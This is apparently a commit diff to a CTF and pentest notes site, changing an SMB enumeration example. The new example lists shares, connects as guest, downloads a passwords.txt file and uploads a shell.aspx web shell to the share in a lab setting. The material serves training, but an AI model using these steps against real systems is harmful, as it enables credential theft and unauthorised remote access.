

Before and after one commit to xanhacks/ctf-docs, an MkDocs documentation site: the page built from docs/pentest/services.md, in a window 1280 px wide and 900 px high, scrolled down 2022 px. Built offline with MkDocs 1.6.1 and Material for MkDocs 9.7.7, drawn with Linux system fonts in a browser that asks for light colours; nearby versions of some CDN libraries; comment, search, counter and statistics services are not loaded; before the commit the page ends 2803 px from its top, so only the background shows below that.

````diff
--- a/docs/pentest/services.md
+++ b/docs/pentest/services.md
@@ -105,19 +105,36 @@ Nmap done: 1 IP address (1 host up) scanned in 9.19 seconds
 
 SMB client for linux (`smbclient`) :
 
+List shares :
+
 ```bash
-$ smbclient //10.10.220.222/anonymous
-Can't load /etc/samba/smb.conf - run testparm to debug it
-Password for [WORKGROUP\xanhacks]: <press enter for empty password>
+$ smbclient -L 10.10.86.204
+Password for [MYGROUP\xanhacks]:
+
+        Sharename       Type      Comment
+        ---------       ----      -------
+        ADMIN$          Disk      Remote Admin
+        C$              Disk      Default share
+        IPC$            IPC       Remote IPC
+        nt4wrksv        Disk
+SMB1 disabled -- no workgroup available
+```
+
+```bash
+$ smbclient -U 'guest' '\\10.10.86.204\nt4wrksv'
+Password for [MYGROUP\guest]:
 Try "help" to get a list of possible commands.
-smb: \> ls
-  .                                   D        0  Wed Sep  4 12:49:09 2019
-  ..                                  D        0  Wed Sep  4 12:56:07 2019
-  log.txt                             N    12237  Wed Sep  4 12:49:09 2019
+smb: \> dir
+  .                                   D        0  Sat Jul 25 23:46:04 2020
+  ..                                  D        0  Sat Jul 25 23:46:04 2020
+  passwords.txt                       A       98  Sat Jul 25 17:15:33 2020
 
-                9204224 blocks of size 1024. 6877100 blocks available
-smb: \> get log.txt
-getting file \log.txt of size 12237 as log.txt (11.8 KiloBytes/sec) (average 11.8 KiloBytes/sec)
+                7735807 blocks of size 4096. 4932712 blocks available
+smb: \> get passwords.txt
+getting file \passwords.txt of size 98 as passwords.txt (0.1 KiloBytes/sec) (average 0.1 KiloBytes/sec)
+smb: \> mput shell.aspx
+Put file shell.aspx? y
+putting file shell.aspx as \shell.aspx (40.5 kb/s) (average 40.5 kb/s)
 ```
 
 Recursively download all the files of the share using `smbget -R` :
````
Also changed, not shown: docs/pentest/privesc/windows-intro.md (+18 -0 lines).
